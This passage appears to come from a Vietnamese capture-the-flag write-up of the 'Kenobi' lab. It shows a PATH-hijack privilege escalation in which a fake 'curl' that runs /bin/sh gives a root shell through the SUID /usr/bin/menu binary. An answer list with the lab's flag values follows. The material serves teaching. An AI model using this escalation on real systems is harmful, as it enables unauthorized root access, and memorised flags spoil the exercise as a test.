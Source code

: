 Sau khi chạy 3 options ta nhận ra Strings là lệnh trên Linux tìm kiếm các chuỗi mà con người có thể đọc được trên tệp nhị phân. Điều này cho chúng ta thấy tệp nhị phân đang chạy mà không có đường dẫn đầy đủ (ví dụ: không sử dụng /usr/bin/curl hoặc /usr/bin/uname).

Từ đây ta có thể lợi dụng để tạo ra một **rootshell**. Nhưng trước tiên phải cd vào `/tmp` thì mới chạy được lệnh tạo rootshell
```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# ls
curl  systemd-private-b646fe2249974d4e86151803caa0fbb1-systemd-timesyncd.service-xtcAlM
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

# Results
1. Scan the machine with nmap, how many ports are open? --> 7
2. Using the nmap command above, how many shares have been found? --> 3
3. Once you're connected, list the files on the share. What is the file can you see? --> log.txt
4. What port is FTP running on? --> 21
5. What mount can we see? --> /var
6. What is the version? --> 1.3.5
7. How many exploits are there for the ProFTPd running? --> 4
8. What is Kenobi's user flag (/home/kenobi/user.txt)? --> d0b0f3f53b6caa532a83915e19224899
9. What file looks particularly out of the ordinary?  --> /usr/bin/menu
10. Run the binary, how many options appear? --> 3
11. What is the root flag (/root/root.txt)? --> 177b3cd8562289f37382721c28381f02

